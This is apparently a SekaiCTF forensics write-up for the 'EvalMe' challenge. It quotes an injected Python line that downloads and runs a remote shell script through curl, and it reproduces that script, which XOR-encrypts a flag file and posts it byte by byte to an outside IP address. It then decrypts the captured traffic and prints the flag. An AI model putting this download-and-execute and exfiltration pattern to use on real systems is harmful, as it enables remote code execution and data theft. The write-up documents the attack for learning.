 <h1>EvalMe - Forensice - SekaiCTF</h1>
<h2>Author: Guesslemonger</h2>

<h3>Problem: I was trying a beginner CTF challenge and successfully solved it. But it didn't give me the flag. Luckily I have this network capture. Can you investigate?</h3>
<h3>>It came attached with a capture.pcapng.</h3

Connecting to the chals.sekai.team server, it required the user to solve 100 simple math problems under a given time. This was solved using the evalMe.py script. 

Following its solve, there was a curl command given at the end:
b'__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell=True)\r#1 + 2 

Downloading the extract.sh to our VM, we get the following script:
```
#!/bin/bash

FLAG=$(cat flag.txt)

KEY='s3k@1_v3ry_w0w'


# Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
Asc() { printf '%d' "'$1"; }


XOREncrypt(){
    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3

    for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

        val1=$( Asc "${DataIn:$ptr:1}" )
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

        val3=$(( val1 ^ val2 ))

        DataOut+=$(printf '%02x' "$val3")

    done

    for ((i=0;i<${#DataOut};i+=2)); do
    BYTE=${DataOut:$i:2}
    curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
    done
}

XOREncrypt $KEY $FLAG

exit 0
```

This script reads the content of flag.txt, encrypts it using XOR encryption with a predefined key, and then sends the encrypted data, byte by byte, to a remote server using cURL. The server URL and endpoint seem to be http://35.196.65.151:30899/, and the data is likely being sent in a structured JSON format as part of the POST request.

This is where the pcap file comes in. It contains the data sent via that POST command. So, filtering by: ip.dst ==35.196.65.151 && http.request.method == POST, we get 51 packets that contain the bytes that was sent as seen below:


![alt text](https://github.com/triciadang/CTF/SekaiCTF/evalMe/evalMeScreenshot.jpg?raw=true)

Exporting all those bytes, we created a script that reversed the encryption for each byte:

```
#!/bin/bash
KEY='s3k@1_v3ry_w0w'

Asc() {
    printf '%d' "'$1"
}

XORDecrypt() {
    local key="$1" DataIn="$2"
    local bytes=($DataIn)

    for (( i = 0; i < ${#bytes[@]}; i++ )); do
        val3=$(printf '%d' "0x${bytes[i]}")

        # Adjusted key indexing for both uppercase and lowercase characters
        val2=$( Asc "${key:$(( i % ${#key} )):1}" )

        val1=$(( val3 ^ val2 ))

        DataOut+=$(printf '\\x%02x' "$val1")
    done

    echo -ne "$DataOut"
}

EncryptedData=$(<encrypted.txt)
DecryptedData=$(XORDecrypt "$KEY" "$EncryptedData")

echo -ne "$DecryptedData"
```

Running it against all the exported bytes, we retrieve the flag: SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483} 
